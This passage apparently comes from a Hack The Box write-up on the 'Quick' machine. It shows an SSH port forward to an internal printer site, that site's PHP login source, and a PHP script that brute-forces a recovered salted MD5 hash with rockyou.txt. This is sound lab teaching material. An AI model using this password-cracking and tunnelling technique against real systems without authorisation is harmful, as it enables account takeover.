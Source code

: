 Because the virtual host is listening on port 80 and it's closed on the external
interface, we have to forward it to one of our ports, let's say 8080. We can do
it with SSH:
```
$ ssh -L 8080:localhost:80 -i sam sam@quick.htb
```

Let's add `127.0.0.1 printerv2.quick.htb` to `/etc/hosts` and now we can make
requests to `printerv2.quick.htb:8080` and they will be forwarded to the
localhost interface on `10.10.10.186`.

The homepage of the web site is a login:
![](/images/hackthebox/quick/printerv2-login.png)

Let's read the source file on the remote machine:
```php
<?php
include("db.php");
if(isset($_POST["email"]) && isset($_POST["password"]))
{
        $email=$_POST["email"];
        $password = $_POST["password"];
        $password = md5(crypt($password,'fa'));
        $stmt=$conn->prepare("select email,password from users where email=? and password=?");
        $stmt->bind_param("ss",$email,$password);
        $stmt->execute();
        $result = $stmt->get_result();
        $num_rows = $result->num_rows;
        if($num_rows > 0 && $email === "srvadm@quick.htb")
        {
                session_start();
                $_SESSION["loggedin"]=$email;
                header("location: home.php");
        }
        else
        {
                echo '<script>alert("Invalid Credentials");window.location.href="/index.php";</script>';
        }
}
?>
```

It's basically hashing the password by adding `fa` as salt. Let's use a simple
script to bruteforce the admin password found in the database:
```php
<?php
$target = 'e626d51f8fbfd1124fdea88396c35d05';
$file = fopen('rockyou.txt', 'r');
while (!feof($file)) {
    $line = trim(fgets($file));
    $computed = md5(crypt($line,'fa'));
    if ($computed == $target) {
        echo 'Password found: ' . $line . "\n";
        exit();
    }
}
?>
```
